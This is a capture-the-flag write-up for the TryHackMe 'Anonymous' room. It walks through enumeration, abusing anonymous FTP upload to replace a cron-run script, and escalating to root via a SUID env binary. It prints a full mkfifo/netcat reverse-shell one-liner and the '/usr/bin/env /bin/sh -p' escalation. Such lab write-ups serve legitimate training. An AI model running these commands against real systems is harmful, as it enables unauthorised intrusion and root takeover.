 Room: [Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: Medium

Description: “Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.”

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start enumerating the machine with nmap:

**nmap -sV -sC -A -p anonymous.thm -oN nmap.txt**

![nmap1](https://user-images.githubusercontent.com/76821053/118256768-c30dd800-b4a5-11eb-8835-6cbb9f426a20.png)
![nmap2](https://user-images.githubusercontent.com/76821053/118256851-d7ea6b80-b4a5-11eb-9455-def0bbef6f87.png)

Open ports and their versions running on the remote system:

21    →  vsftpd 2.0.8 

22    →  OpenSSH 7.6p1

139  →  netbios-ssn Samba smbd 3.X - 4.X

445  →  netbios-ssn Samba smbd 4.7.6

From the nmap scan we can imediately answer the first three questions.

Continuing enumerating the machine. 

The ftp server lets us login with user “anonymous” without any password.

![ftpdownload](https://user-images.githubusercontent.com/76821053/118257028-1122db80-b4a6-11eb-90cf-8b198bb70edf.png)

I downloaded three files: **clean.sh**, **removed_files.log**, **to_do.txt**.

**to_do.txt**:

Leaves a hint that the system is not safe. Meaning that maybe some services have anonymous login.

![todo](https://user-images.githubusercontent.com/76821053/118257209-45969780-b4a6-11eb-9215-7690384324ed.png)

**clean.sh**:

Is a bash script that when ran it checks if there is files in the /tmp directory and removes them. 

![readclean](https://user-images.githubusercontent.com/76821053/118257284-5ba45800-b4a6-11eb-9f3e-5db72feed54b.png)

**removed_files.log**:

When the bash script runs it posts status messages to this .log file.

![remotelog](https://user-images.githubusercontent.com/76821053/118257366-75de3600-b4a6-11eb-93e9-5790a2a1c534.png)

If we monitored the **removed_files.log** file we can see that the script **clean.sh** is running has a cronjob since it keeps posting to the .log file everyminute:

If we use "wc -l" we can check how many lines (post messages) the file has.

![remoteWC1](https://user-images.githubusercontent.com/76821053/118257588-b63db400-b4a6-11eb-882b-1693c6c60e0d.png)

After a few minutes we have 72 entries.
 
![remoteWC2](https://user-images.githubusercontent.com/76821053/118257627-c05fb280-b4a6-11eb-8468-1d11bf8a02b3.png)
 
Lets try to upload files to the ftp server:
 
![ftpuploadtest](https://user-images.githubusercontent.com/76821053/118257708-d9686380-b4a6-11eb-9d0e-098654b93554.png)
 
Has we can see the system allows file upload, so lets change the **clean.sh** script a bit and upload it:
 
![cleantest](https://user-images.githubusercontent.com/76821053/118257824-f7ce5f00-b4a6-11eb-8b4f-6e3e435514d6.png)
 
The new message was posted to the .log file after a minute. 
 
![removemessage](https://user-images.githubusercontent.com/76821053/118258135-6ca19900-b4a7-11eb-8c7f-6b00cb9cff3d.png)

This is our way in to the remote target, so lets change the script to run a netcat reverse shell connection.

**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f**

Change ip and port to match your own system and delete or comment out the rest of the script, because if the script runs the rest of the commands it will delete our tmp files.

![cleannetcat](https://user-images.githubusercontent.com/76821053/118265218-bb076580-b4b0-11eb-84fe-d1d79f532501.png)

Now we just have to be listening with netcat on the port we specify when we upload the new clean.sh file to the ftp server and get a reverse shell connection.

![netcatreverse](https://user-images.githubusercontent.com/76821053/118265304-dffbd880-b4b0-11eb-878d-c77337844df2.png)

Right away we can find the user.txt flag.

![flag1](https://user-images.githubusercontent.com/76821053/118265533-3a953480-b4b1-11eb-9990-d5658b3adbac.png)

It's good practice to stabilize your shell. So we can use tab-completion, Ctrl+C  without completely kills our shell and use su command since it often do not work.

And in a kali machine to do that we will use the following command:

**python -c 'import pty;pty.spawn("/bin/bash")'**

**export TERM=xterm-256-color**

**CTRL + Z**

**stty raw -echo; fg**

![stabilizeshell](https://user-images.githubusercontent.com/76821053/118265726-7fb96680-b4b1-11eb-973b-a63383054857.png)

Now lets try and elevate our privileges and gain root access.

We can use tools like linpeas.sh, but in this case we will do it manually. Since this privilege escalation is a simple one to find.

When enumerating a UNIX base system one of the first things we can do is search for SUID binaries. Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.  Files that have suid permissions run with higher privileges. 

For example if a file is owned by “root" user and is set to run has a SUID binary. Normal users might take advantage of this permitions to elevate their privileges.

So to check for SUID binaries we can use this command:

**find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;**

![findsuid](https://user-images.githubusercontent.com/76821053/118266231-33baf180-b4b2-11eb-9900-099dc92816fe.png)
![findsuid2](https://user-images.githubusercontent.com/76821053/118266407-7250ac00-b4b2-11eb-85be-5583970bedab.png)

There is a great site called GTFOBins that has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

/usr/bin/env binary is running has root with SUID permitions, so we can exploit it.

![GTFObinenv](https://user-images.githubusercontent.com/76821053/118266632-c6f42700-b4b2-11eb-92f8-da4efdf14a9c.png)

/usr/bin/env /bin/sh -p

![rootflag](https://user-images.githubusercontent.com/76821053/118266812-091d6880-b4b3-11eb-91b8-50146e4390db.png)

Success we found our last flag!




